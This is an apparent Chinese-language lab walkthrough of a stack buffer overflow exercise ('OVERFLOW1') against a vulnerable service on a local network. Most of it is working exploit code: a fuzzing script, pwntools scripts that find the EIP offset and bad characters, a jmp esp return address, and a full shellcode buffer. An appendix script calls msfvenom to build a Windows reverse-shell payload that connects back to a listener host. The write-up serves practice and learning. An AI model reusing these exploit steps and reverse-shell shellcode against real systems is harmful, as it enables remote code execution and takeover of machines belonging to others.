 # Buffer Overflow Prep OVERFLOW1
- Immunity debugger 快捷鍵
	- Ctrl + F2 重開
	- F9 開始
	
## 觀察 
- nc 上去，決定這次的目標是 `OVERFLOW1`
	-  ![](https://i.imgur.com/qnTQ0Rn.png)

## Fuzz
- 準備 `Overflow1.spk`
```C
s_readline();
s_string("OVERFLOW1 ");
s_string_variable("0");
```
- 執行 `generic_send_tcp 192.168.1.102 1337 Overflow1.spk 0 0
`
- Run 下去他就爛ㄌ
	- ![](https://i.imgur.com/89HNTl2.png)
	- 可以觀察到 EIP 變成 41414141
	- ![](https://i.imgur.com/xpGvUrG.png)

## Cyclic 找 Offset
```python
from pwn import *
r = remote("192.168.1.102",1337)

perfix = b"OVERFLOW1 "
cy = cyclic()

payload = perfix + cy

r.sendline(payload)
```
- 觀察 EIP 變成 `61757461`
	- ![](https://i.imgur.com/1BTGO9u.png)
- `pwn cyclic -l 0x61757461`
	- ![](https://i.imgur.com/hjLOr0q.png)
	- Offset 為 1978
- 重新測試
```python
from pwn import *
r = remote("192.168.1.102",1337)

perfix = b"OVERFLOW1 "
padding = b'a' * 1978

payload = perfix + padding + b'bbbb'

r.sendline(payload)
```
![](https://i.imgur.com/JrLxWEq.png)

發現 EIP 順利蓋成了 "bbbb" (62626262)

## 紀錄繼續蓋的資料
- 先繼續蓋一波，觀察資料會蓋去哪
```python
from pwn import *
r = remote("192.168.1.102",1337)

perfix = b"OVERFLOW1 "
padding = b'a' * 1978
return_address = b'bbbb'
payload = perfix + padding + return_address + cyclic()

r.sendline(payload)
```
- 發現會直接蓋到 ESP
	- ![](https://i.imgur.com/offxAM5.png)


## 尋找 Return Address
- 輸入 `!mona jmp -r esp `
	- ![](https://i.imgur.com/P4lbInG.png)
	- 可以找到 `0x625011af`

## 尋找 Badword
(使用到的腳本在最下面)
- 測試 BadWord
```python
from pwn import *
r = remote("192.168.1.102",1337)

perfix = b"OVERFLOW1 "
padding = b'a' * 1978
return_address = b'bbbb'
badword = bytes([i for i in range(1,0xff+1)])
payload = perfix + padding + return_address + badword

r.sendline(payload)
```

- 對 ESP 選 Follow in dump
	- ![](https://i.imgur.com/DV7CICB.png)
- 複製出來存到 dump.txt
	- ![](https://i.imgur.com/V7wIQew.png)
- 執行神奇小腳本
	- ![](https://i.imgur.com/QfusPuZ.png)
	- 因為 Badword 有可能會影響到下一個 Bytes，所以圈出來的部分需要重新測試

```python
from pwn import *
r = remote("192.168.1.102",1337)

perfix = b"OVERFLOW1 "
padding = b'a' * 1978
return_address = b'bbbb'
badword = b"\x01\x07\x01\x08\x01\x2E\x01\x2F\x01\xA0\x01\xA1"
payload = perfix + padding + return_address + badword

r.sendline(payload)
```

- 取得新的資料貼到 `dump2.txt`
	- 輸入 `\x00\x07\x2e\xa0`
	- ![](https://i.imgur.com/hjhBOMg.png)
- 取得 Badword 為 `\x00\x07\x2e\xa0`
- 並自動產出 Exploit
	- ![](https://i.imgur.com/0Dn4Bfu.png)


## 套用 Exploit
```python
buf =  b""
buf += b"\x2b\xc9\x83\xe9\xaf\xe8\xff\xff\xff\xff\xc0\x5e\x81"
buf += b"\x76\x0e\x99\x81\xa9\xdb\x83\xee\xfc\xe2\xf4\x65\x69"
buf += b"\x2b\xdb\x99\x81\xc9\x52\x7c\xb0\x69\xbf\x12\xd1\x99"
buf += b"\x50\xcb\x8d\x22\x89\x8d\x0a\xdb\xf3\x96\x36\xe3\xfd"
buf += b"\xa8\x7e\x05\xe7\xf8\xfd\xab\xf7\xb9\x40\x66\xd6\x98"
buf += b"\x46\x4b\x29\xcb\xd6\x22\x89\x89\x0a\xe3\xe7\x12\xcd"
buf += b"\xb8\xa3\x7a\xc9\xa8\x0a\xc8\x0a\xf0\xfb\x98\x52\x22"
buf += b"\x92\x81\x62\x93\x92\x12\xb5\x22\xda\x4f\xb0\x56\x77"
buf += b"\x58\x4e\xa4\xda\x5e\xb9\x49\xae\x6f\x82\xd4\x23\xa2"
buf += b"\xfc\x8d\xae\x7d\xd9\x22\x83\xbd\x80\x7a\xbd\x12\x8d"
buf += b"\xe2\x50\xc1\x9d\xa8\x08\x12\x85\x22\xda\x49\x08\xed"
buf += b"\xff\xbd\xda\xf2\xba\xc0\xdb\xf8\x24\x79\xde\xf6\x81"
buf += b"\x12\x93\x42\x56\xc4\xe9\x9a\xe9\x99\x81\xc1\xac\xea"
buf += b"\xb3\xf6\x8f\xf1\xcd\xde\xfd\x9e\x7e\x7c\x63\x09\x80"
buf += b"\xa9\xdb\xb0\x45\xfd\x8b\xf1\xa8\x29\xb0\x99\x7e\x7c"
buf += b"\x8b\xc9\xd1\xf9\x9b\xc9\xc1\xf9\xb3\x73\x8e\x76\x3b"
buf += b"\x66\x54\x3e\xb1\x9c\xe9\x69\x73\x98\xe7\xc1\xd9\x99"
buf += b"\x9f\x6c\x52\x7f\xeb\xb9\x8d\xce\xe9\x30\x7e\xed\xe0"
buf += b"\x56\x0e\x1c\x41\xdd\xd7\x66\xcf\xa1\xae\x75\xe9\x59"
buf += b"\x6e\x3b\xd7\x56\x0e\xf1\xe2\xc4\xbf\x99\x08\x4a\x8c"
buf += b"\xce\xd6\x98\x2d\xf3\x93\xf0\x8d\x7b\x7c\xcf\x1c\xdd"
buf += b"\xa5\x95\xda\x98\x0c\xed\xff\x89\x47\xa9\x9f\xcd\xd1"
buf += b"\xff\x8d\xcf\xc7\xff\x95\xcf\xd7\xfa\x8d\xf1\xf8\x65"
buf += b"\xe4\x1f\x7e\x7c\x52\x79\xcf\xff\x9d\x66\xb1\xc1\xd3"
buf += b"\x1e\x9c\xc9\x24\x4c\x3a\x49\xc6\xb3\x8b\xc1\x7d\x0c"
buf += b"\x3c\x34\x24\x4c\xbd\xaf\xa7\x93\x01\x52\x3b\xec\x84"
buf += b"\x12\x9c\x8a\xf3\xc6\xb1\x99\xd2\x56\x0e"
```


- ![](https://i.imgur.com/wxHQnYU.png)
	- 成功 !!


## 附錄
### 第一階段尋找 Badwords
`find_badwords1.py`
```python
with open("dump.txt",'r') as f:
    s = f.read()

s = s.split("\n")

new_array = []
for l in s:
    t = l.split("  ")
    new_array += t[1].split(" ")

full_array = [hex(i)[2:].upper().zfill(2) for i in range(1,0xff+1)]
badwords = [r'\x00']

non_badword = []
for i,j in zip(new_array,full_array):
    if i != j:
        badwords.append(r"\x"+j)
        # print(i,j)
    else:
        non_badword.append(r"\x"+j)

print("Probably Badword : ",''.join(badwords).lower())

print("Next Try : b\"" , end='')
for i in badwords[1:]: # null must bad
    print(non_badword[0]+i,end='')
print("\"")
```

### 第二階段尋找 Badwords + 自動 Exploit
`find_badwords1.py`
```python
import os
with open("dump2.txt",'r') as f:
    s = f.read()

s = s.split("\n")

new_array = []
for l in s:
    t = l.split("  ")
    new_array += t[1].split(" ")

new_array = new_array[1::2]
p = list(eval(input("Try payload : ")))
p = p[1::2]
p = [hex(i)[2:].upper().zfill(2) for i in p]

bad_words = [r'\x00']
for i,j in zip(new_array,p):
    if i != j:
        bad_words.append(r"\x"+j)

print("Badword : ",''.join(bad_words).lower())


ip = "192.168.1.106"
port = 7877
os.system(f'msfvenom -p windows/shell_reverse_tcp LHOST={ip} LPORT={port} EXITFUNC=thread -f python -a x86 -b "{bad_words}"')
```